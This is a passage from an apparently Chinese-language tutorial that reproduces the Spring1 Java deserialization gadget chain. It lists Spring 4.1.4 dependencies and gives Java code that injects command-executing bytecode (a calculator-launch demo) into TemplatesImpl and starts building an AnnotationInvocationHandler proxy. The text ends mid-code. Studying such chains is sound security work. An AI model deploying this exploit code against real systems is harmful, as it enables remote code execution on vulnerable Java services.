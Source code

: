 # 环境搭建

```
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-beans</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

# 漏洞复现

```
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;

public class Spring1 {

    public static String fileName = "Spring1.bin";

    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        ClassPool pool = ClassPool.getDefault();
        CtClass STU = pool.makeClass("T0WN");
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator\");";
        STU.makeClassInitializer().insertBefore(cmd);
        STU.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[][] bytes = new byte[][]{STU.toBytecode()};

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", bytes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);

        // 使用 AnnotationInvocationHandler 动态代理
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap map = new HashMap<>();
        map.put("getObject", templates);

        // 使用动态代理初始化 AnnotationInvocationHandler
```